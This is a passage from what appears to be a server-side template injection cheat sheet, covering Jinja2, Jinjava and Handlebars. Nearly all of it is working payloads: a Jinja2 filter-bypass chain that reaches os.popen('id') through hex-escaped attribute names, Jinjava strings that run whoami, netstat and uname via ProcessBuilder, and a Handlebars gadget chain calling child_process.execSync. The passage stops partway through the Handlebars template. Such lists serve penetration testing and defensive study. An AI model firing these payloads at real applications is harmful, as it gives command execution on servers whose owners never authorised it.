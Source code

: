Bypassing `|join`

    http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_

Bypassing most common filters ('.','\_','|join','[',']','mro' and 'base') by [https://twitter.com/SecGus](https://twitter.com/SecGus):

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

[](#jinjava)

Jinjava

[](#jinjava---basic-injection)

Jinjava - Basic injection

    {{'a'.toUpperCase()}} would result in 'A'
    {{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

[](#jinjava---command-execution)

Jinjava - Command execution

Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}


    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

[](#handlebars)

Handlebars

[](#handlebars---command-execution)

Handlebars - Command Execution

    {{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
          {{this.pop}}
          {{this.push (lookup string.sub "constructor")}}
          {{this.pop}}
          {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('ls -la');"}}
            {{this.pop}}
            {{#each conslist}}
              {{#with (string.sub.apply 0 codelist)}}
                {{this}}
              {{/with}}
            {{/each}}
          {{/with}}
        {{/with}}
      {{/with}}